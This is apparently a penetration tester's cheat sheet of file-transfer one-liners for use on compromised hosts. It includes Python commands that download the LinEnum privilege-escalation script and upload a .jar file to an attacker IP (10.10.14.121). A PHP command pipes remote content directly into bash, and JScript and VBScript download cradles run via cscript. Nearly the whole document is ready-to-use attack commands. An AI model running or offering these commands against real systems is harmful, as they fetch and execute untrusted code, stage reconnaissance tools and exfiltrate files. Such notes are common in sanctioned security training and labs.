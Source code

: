 ## Python 

### Python 2 Download 
```shell
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
### Python 3 Download

```shell
 python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## Python 3 Upload 
```shell
python3 -m uploadserver 
```

```shell
python3 -c 'import requests;requests.post("http://10.10.14.121:8000/upload",files={"files":open("cloudhosting-0.0.1.jar","rb")})'
```

## PHP
### File_get_contents()
```shell
php -r '$file = file_get_contents("<url>"); file_put_contents("<file name>",$file);'
```
### Fopen()
```shell
php -r 'const BUFFER = 1024; $fremote = 
fopen("<url>", "rb"); $flocal = fopen("<filename>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
### PHP + Bash
```shell
php -r '$lines = @file("<url>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Ruby 
```shell
ruby -e 'require "net/http"; File.write("<filename>", Net::HTTP.get(URI.parse("<url>")))'
```

## Perl
```shell
perl -e 'use LWP::Simple; getstore("<url>", "<filename>");'
```

## Java Script 
Make a file called `wget.js`
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

```cmd
 cscript.exe /nologo wget.js <url> <name>
```

## VBScript
Make a file called `wget.vbs`
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd
cscript.exe /nologo wget.vbs <url> <name>
```

